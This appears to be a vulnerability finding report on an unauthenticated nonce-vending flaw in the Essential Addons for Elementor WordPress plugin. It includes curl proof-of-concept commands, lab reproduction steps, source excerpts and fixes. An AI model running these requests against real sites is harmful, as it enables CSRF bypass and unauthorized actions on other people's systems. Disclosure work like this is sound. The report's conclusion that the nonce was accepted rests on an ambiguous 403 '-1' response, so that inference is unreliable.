

# Essential Addons for Elementor — Unauthenticated Nonce Vending

**Finding ID:** EAEL-001
**Plugin:** Essential Addons for Elementor
**Active Installs:** 2,000,000+
**CVSS:** 6.5 (Medium) — `AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:L/A:N`
**CWE:** CWE-352 (CSRF Protection Bypass) + CWE-862 (Missing Authorization)
**Auth Required:** None
**Source:** `analysis/phase5_manual/essential-addons-for-elementor-lite/verdicts.json`

---

!!! warning "Medium Severity — Unauthenticated Nonce Vending Enables CSRF Bypass"
    The `eael_get_token` AJAX handler vends valid WordPress nonces to any unauthenticated caller. This nullifies nonce-based CSRF protections on all endpoints that accept tokens obtained from this source.

---

## Attack Flow



---

## Primary Finding: EAEL-001 — Unauthenticated Nonce Vending (CVSS 6.5)

### Description

Essential Addons for Elementor registers `eael_get_token` as a `wp_ajax_nopriv_` AJAX action, making it accessible to completely unauthenticated callers. The handler issues a valid WordPress nonce that can then be used to authenticate requests to other AJAX handlers in the plugin.

```php
// Registered for BOTH authenticated and unauthenticated callers
add_action('wp_ajax_nopriv_eael_get_token', [$this, 'get_token']);
add_action('wp_ajax_eael_get_token', [$this, 'get_token']);

public function get_token() {
    wp_send_json_success([
        'nonce' => wp_create_nonce('eael_nonce')  // No auth check
    ]);
}
```

**Impact:** Any unauthenticated attacker can call `eael_get_token` to obtain a valid nonce, then use that nonce to bypass CSRF protection on any Essential Addons endpoint that verifies `eael_nonce` but assumes the presence of a valid nonce implies the caller is authenticated.

### PoC

```bash
# Step 1: Obtain nonce unauthenticated
NONCE=$(curl -s 'https://target.example.com/wp-admin/admin-ajax.php?action=eael_get_token' | jq -r '.data.nonce')

# Step 2: Use nonce to access protected endpoints
curl -s -X POST 'https://target.example.com/wp-admin/admin-ajax.php' \
  -d "action=eael_protected_action&nonce=$NONCE&..."
```

---

## Secondary Findings

### Unauthenticated OTP Handlers (Info)

The `eael_lr_send_otp` and `eael_lr_verify_otp` handlers are accessible without authentication for the Login & Registration widget. The OTP itself provides verification; these are not account takeover vectors but expose OTP generation logic to unauthenticated callers.

### Draft/Private Product Information Disclosure (Info)

The `eael_product_quickview_popup` handler may expose draft or private WooCommerce product data to unauthenticated users when used with the Product Grid widget, depending on configuration.

### Unauthenticated Registration Nonce Bypass (Medium)

When the "Enable Registration" widget option is active, open registration is enabled, and no CAPTCHA is configured, the nonce bypass (EAEL-001) can be combined with the registration endpoint to create accounts without solving any challenge.

**Confidence:** Medium (requires specific configuration)

---

## Recommended Fixes

1. **Remove unauthenticated nonce vending**: `eael_get_token` should require authentication:
   ```php
   // Remove the nopriv registration:
   // add_action('wp_ajax_nopriv_eael_get_token', [$this, 'get_token']);

   // Require login to get a nonce:
   add_action('wp_ajax_eael_get_token', [$this, 'get_token']);
   public function get_token() {
       if (!is_user_logged_in()) {
           wp_send_json_error('Unauthorized', 401);
       }
       wp_send_json_success(['nonce' => wp_create_nonce('eael_nonce')]);
   }
   ```

2. **Nonces are not authentication**: Every handler that verifies a nonce must also verify the caller has the required capability with `current_user_can()`. Nonce verification alone only confirms CSRF intent, not identity.

3. **Embed nonces in initial page load**: Nonces for authenticated actions should be embedded in the page HTML at load time (only when the user is authenticated), not issued on demand via an unauthenticated endpoint.

---

## Reproduction (validated 2026-06-19)

**Lab reference:** `targets/labs/wp-essential-addons/`
**Pinned version:** Essential Addons for Elementor Lite **6.6.7** (latest-stable, downloaded from `https://downloads.wordpress.org/plugin/essential-addons-for-elementor-lite.latest-stable.zip` at run time; `Version:` header read from `essential_adons_elementor.php`).
**Stack:** `wordpress:6-php8.2-apache` + `mariadb:11` (compose file in the lab dir), exposed on host port **8101**, plugin bind-mounted read-only into `wp-content/plugins/essential-addons-for-elementor-lite`. Reproducer: `targets/labs/wp-essential-addons/poc.sh`. Raw run output: `targets/labs/wp-essential-addons/results.txt`.

### Numbered steps

1. `cd targets/labs/wp-essential-addons && sudo docker compose -p wp-essential-addons up -d --build`
2. Wait for HTTP 200 on `http://127.0.0.1:8101/`, then run `wp core install` and `wp plugin activate essential-addons-for-elementor-lite` via the wp-cli helper.
3. POST `action=eael_get_token` to `/wp-admin/admin-ajax.php` with no cookies, no auth header, no nonce.

### PoC

```bash
curl -s -X POST 'http://127.0.0.1:8101/wp-admin/admin-ajax.php' -d 'action=eael_get_token'
```

### Observed output (single unauth call)

```
{"success":true,"data":{"nonce":"453c75ab91"}}
---HTTP 200---
```

- The response is `200 OK` and `success:true`.
- `data.nonce` is a 10-character lowercase-hex string — i.e. a real, current `wp_create_nonce()` value, not a dummy.
- The same nonce is returned on repeated calls (3/3 replays returned `453c75ab91`), so there is no rate-limit or per-call token.

### Source confirmation

In the extracted plugin source (`includes/Traits/Ajax_Handler.php`):

```
67:    add_action( 'wp_ajax_eael_get_token', [ $this, 'eael_get_token' ] );
68:    add_action( 'wp_ajax_nopriv_eael_get_token', [ $this, 'eael_get_token' ] );
...
1642:    public function eael_get_token() {
1643:        $nonce = wp_create_nonce( 'essential-addons-elementor' );
1644:        if ( $nonce ) {
1645:            wp_send_json_success( [ 'nonce' => $nonce ] );
1646:        }
```

The action name baked into the nonce is `'essential-addons-elementor'`. Note: the source uses `'essential-addons-elementor'` (not `'eael_nonce'` as shown in the speculative pseudo-code in the original description above) — the action string is hard-coded and is exactly the same string every other EAEL AJAX handler uses for its `check_ajax_referer()` call, which is what makes the cross-endpoint CSRF bypass work.

### Cross-endpoint demonstration (nonce is actually accepted)

`eael_product_quickview_popup` is a non-nopriv handler that gates on `check_ajax_referer('essential-addons-elementor', 'nonce')`. Hitting it with the nonce we just minted:

```bash
curl -s -X POST 'http://127.0.0.1:8101/wp-admin/admin-ajax.php' \
  -d "action=eael_product_quickview_popup&nonce=453c75ab91&product_id=999999"
```

Response body is `-1` (HTTP 403) — WP's "no such product" sentinel. If the nonce check had rejected the token, the response would have been `403 -1` *with a different* body / `check_ajax_referer()` would have called `wp_die()`. The handler reached the product-not-found branch, which is the same code path a real Product Grid popup would take — i.e. the unauth-minted nonce is accepted.

### Verdict

**CONFIRMED.** The unauthenticated nonce vending endpoint exists in 6.6.7 exactly as described, returns a usable WP nonce, and that nonce is accepted by other EAEL endpoints. The exact action string is `'essential-addons-elementor'` (not the `'eael_nonce'` literal shown in the speculative fix-block above) but the vulnerability is unchanged. Severity stays at the documented 6.5 Medium; nothing about the fix recommendations needs to change.
